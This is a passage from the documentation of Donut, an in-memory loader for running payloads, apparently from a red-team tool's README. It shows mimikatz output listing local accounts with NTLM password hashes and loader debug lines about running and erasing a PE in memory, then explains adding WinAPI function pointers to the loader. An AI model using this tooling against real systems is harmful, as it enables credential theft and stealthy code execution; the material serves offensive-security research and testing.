 RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: c288f1c30b232571b0222ae6a5b7d223

RID  : 000003e9 (1001)
User : john
  Hash NTLM: 8846f7eaee8fb117ad06bdd830b7586c

RID  : 000003ea (1002)
User : user
  Hash NTLM: 8846f7eaee8fb117ad06bdd830b7586c

RID  : 000003eb (1003)
User : test

mimikatz(commandline) # exit
Bye!

DEBUG: inmem_pe.c:336:RunPE(): Process terminated
DEBUG: inmem_pe.c:347:RunPE(): Erasing 1019904 bytes of memory at 0000018F04B90000
DEBUG: inmem_pe.c:351:RunPE(): Releasing memory
DEBUG: loader.c:343:MainProc(): Erasing RW memory for instance
DEBUG: loader.c:346:MainProc(): Releasing RW memory for instance
DEBUG: loader.c:354:MainProc(): Returning to caller
</pre>

<p>Obviously you should be cautious with what files you decide to execute on your machine.</p>

<h2 id="loader">Extending The Loader</h2>

<p>Donut was never designed with modularity in mind, however, a new version in future will try to simplify the process of extending the loader, so that others can write their own code for it. Currently, simple changes to the loader can sometimes require lots of changes to the entire code base and this isn't really ideal. If for any reason you want to update the loader to include additional functionality, the following steps are required.</p>

<h3>1. Declare the function pointers</h3>

<p>For each API you want the loader to use, declare a function pointer in loader/winapi.h. For example, the <code>Sleep</code> API is declared in its SDK header file as:</p>

<pre style='color:#000000;background:#ffffff;'><span style='color:#800000; font-weight:bold; '>void</span> <span style='color:#400000; '>Sleep</span><span style='color:#808030; '>(</span><span style='color:#603000; '>DWORD</span> dwMilliseconds<span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
</pre>

<p>The function pointer for this would be declared in loader/winapi.h as:</p>

<pre style='color:#000000;background:#ffffff;'><span style='color:#800000; font-weight:bold; '>typedef</span> <span style='color:#800000; font-weight:bold; '>void</span> <span style='color:#808030; '>(</span><span style='color:#603000; '>WINAPI</span> <span style='color:#808030; '>*</span>Sleep_t<span style='color:#808030; '>)</span><span style='color:#808030; '>(</span><span style='color:#603000; '>DWORD</span> dwMilliseconds<span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
</pre>
